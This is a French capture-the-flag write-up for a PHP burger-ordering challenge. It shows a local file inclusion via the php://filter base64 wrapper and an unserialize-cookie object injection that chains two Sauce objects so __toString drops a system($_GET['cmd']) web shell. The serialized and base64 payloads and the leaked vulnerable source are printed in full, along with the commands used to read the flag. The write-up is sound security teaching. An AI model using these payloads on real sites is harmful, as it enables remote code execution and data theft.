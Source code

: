 # UnserBurgers

En regardant le site web, on peut voir que les pages sotn construites avec `http://35.181.252.51:11150/?page=`. L'url fait tout de suite penser à une inclusion. 

En regardant de plus près, j'ai remarqué que `http://35.181.252.51:11150/?page=order`pointe vers `http://35.181.252.51:11150/order.php`. Ce comportement fait penser à une LFI (Local File Inclusion).

Après quelques essais, j'ai réussi à utiliser le wrapper base64, afin de récupere le code source de la page avec l'url `http://35.181.252.51:11150/?page=php://filter/read=convert.base64-encode/resource=page-a-recuperer`.


![screen1](screen1.png)


Voici les parties interéssantes :

- index.php :

```php
ini_set('display_errors','Off');
ini_set('error_reporting', E_ALL );

# Display page
if(isset($_GET["page"])){
    $tmp = $_GET["page"];
        if(strlen($tmp) <= 70){
            $_page = $_GET["page"];
        }else $_page = "home";
}else $_page = "home";

$page = "$_page.php";

# Create burger
require_once('./classes/Burger.class.php');
require_once('./classes/Sauce.class.php'); // TODO - remove because this class is not used!

if(isset($_POST["saveBurger"])){
    if(isset($_POST["burgerName"]) && !empty($_POST["burgerName"])){
        if(isset($_POST["buyerName"]) && !empty($_POST["buyerName"])){
            if(isset($_POST["ingredients"]) && !empty($_POST["ingredients"])){
                $burgerName = htmlspecialchars($_POST["burgerName"]);
                $buyerName = htmlspecialchars($_POST["buyerName"]);
                $burger = new BigFatBurger\Burger($burgerName, $buyerName);

                foreach($_POST["ingredients"] as $ingredient){
                    $burger->add($ingredient);
                }
                setcookie("burger", base64_encode(serialize($burger)), time() + (86400 * 30), "/");

                $msgok = "<span class='ok'>Your burger is built, you can order it!</span>";
            }
        }else $msgerror = "<span class='error'>Please give your name</span>";
    }else $msgerror = "<span class='error'>Please name your burger</span>";
}

# Order burger
if(isset($_POST["orderBurger"])){
    $msgok = "<span class='ok'>Your burger is on the way!</span>";
}
```

- order.php: 

```php
<?php if(isset($_COOKIE["burger"]) && !empty($_COOKIE["burger"])){ ?>
    <p>
        Is your burger ready?<br>
        Cool, click on the "order" button and pick it up at the restaurant.<br>
        Don''t forget your money, no credit given! =)<br>
    </p>
    <form method="post" action="">
        <div class="form-footer">
            <input class="submit" type="submit" name="orderBurger" value="Order your burger <<?php echo unserialize(base64_decode($_COOKIE['burger']))->getName(); ?>>"/>
            <?php if(isset($msgok)) echo $msgok; ?>
        </div>
    </form>
    <?php }else{ ?>
    <p>
        You haven't built your burger yet, so we don't know what you want inside!<br>
        Go back to <a href="?page=build">this page</a>, choose the ingredients and come back here.
    </p>
    <?php } ?>
```

- classes/Burger.class.php (reférencé dans index.php) :

```php
namespace BigFatBurger;

class Burger{
    public $name;
    public $buyerName;
    public $ingredients;

    public function __construct($name, $buyerName){
        $this->name = $name;
        $this->buyerName = $buyerName;
        $this->ingredients = array();
    }

    public function getName() {
        return $this->name;
    }

    public function setName($name) {
        $this->name = $name;
    }

    public function add($ingredient){
        $this->ingredients[] = $ingredient;
    }

    public function display(){
        return "You (" . $this->buyerName . ") bought the burger: " . $this->name;
    }

    public function __wakeup(){
        $this->display();
    }
    
}
```


- classes/Sauce.class.php (reférencé dans index.php) :

```php
namespace SauceTooSpicy;

class Sauce {
    public $name;
    public $spiciness;

    public function __construct($name, $spiciness) {
        $this->name = $name;
        $this->spiciness = $spiciness;
    }

    public function getName() {
        return $this->name;
    }

    public function setName($name) {
        $this->name = $name;
    }

    public function getSpiciness() {
        return $this->spiciness;
    }

    public function setSpiciness($spiciness) {
        if ($spiciness >= 1 && $spiciness <= 5) {
            $this->spiciness = $spiciness;
        } else {
            $this->spiciness = 1;
        }
    }

    public function __toString() {
        file_put_contents("sauce.out.{$this->spiciness}", $this->name);
        return "";
    }
}
```

En regardant le code, on peut voir que le site génère un cookie en base64. Ce cookie contient les variables serialisés de la classe `Burger`. Le cookier ressemble à `METTRE UN COOKIE` -> `METTRE UN COOKIE DECODE`. L'avantage de la sérialisation est qu'il est possible de modifier les type, ce qui es particulièrement utile quand on donne un objet entier.


En regardant de plus près le code de `Burger`, il n'y a rien d'interéssant, cependant, la classe `Sauce`, elle, écrit la variable `name` dans un fichier dont on peut controller le nom.


Afin d'injecter cette classe, il suffit juste de modifier le cookie serialisé. `O:19:"SauceTooSpicy\Sauce":2:{s:4:"name";s:5:"test1";s:9:"spiciness";s:5:"test2";}`-> `TzoxOToiU2F1Y2VUb29TcGljeVxTYXVjZSI6Mjp7czo0OiJuYW1lIjtzOjU6InRlc3QxIjtzOjk6InNwaWNpbmVzcyI7czo1OiJ0ZXN0MiI7fQo=`


![screen2](screen2.png)

Cependant, nous n'avons toujours pas créé le fichier, car à aucun moment le script n'a fait un `echo $burger`. En effet, le seul appel à notre objet est

```php
echo unserialize(base64_decode($_COOKIE['burger']))->getName();
```

dans `order.php`.

Il faut donc trouver un moyer de fair un `echo` de notre class. Pour ce faire, il suffit de créer un objet Sauce, qui contient un attribut `name` lié à un autre objet sauce, qui lui sera affiché au moment de l'affichage du nom du premier objet.

```
O:19:"SauceTooSpicy\Sauce":2:{s:4:"name";O:19:"SauceTooSpicy\Sauce":2:{s:4:"name";s:35:"<?php echo system($_GET['cmd']); ?>";s:9:"spiciness";s:5:"a.php";}s:9:"spiciness";s:5:"aaaaa";}
```

```
TzoxOToiU2F1Y2VUb29TcGljeVxTYXVjZSI6Mjp7czo0OiJuYW1lIjtPOjE5OiJTYXVjZVRvb1NwaWN5XFNhdWNlIjoyOntzOjQ6Im5hbWUiO3M6MzU6Ijw/cGhwIGVjaG8gc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+IjtzOjk6InNwaWNpbmVzcyI7czo1OiJhLnBocCI7fXM6OToic3BpY2luZXNzIjtzOjU6ImFhYWFhIjt9Cg==
```

Au chargement de la page `order.php`, le script suivant sera éxecuté :

```php
public function __toString() {
    file_put_contents("sauce.out.{$this->spiciness}", $this->name);
    return "";
}
```

sur l'objet :

```
"SauceTooSpicy\Sauce":2:{s:4:"name";s:35:"<?php echo system($_GET['cmd']); ?>";s:9:"spiciness";s:5:"a.php";}
```

Cela aura pour effet de créer la page `sauce.out.a.php`. Cette page est accessible via l'url `http://35.181.252.51:11150/?page=sauce.out.a&cmd=whoami`.

![screen3](screen3.png)


En faisant quelques `ls`, on retrouve le fichier flag.txt.

On peut donc récupere le flag avec un cat.


Merci pour le chall !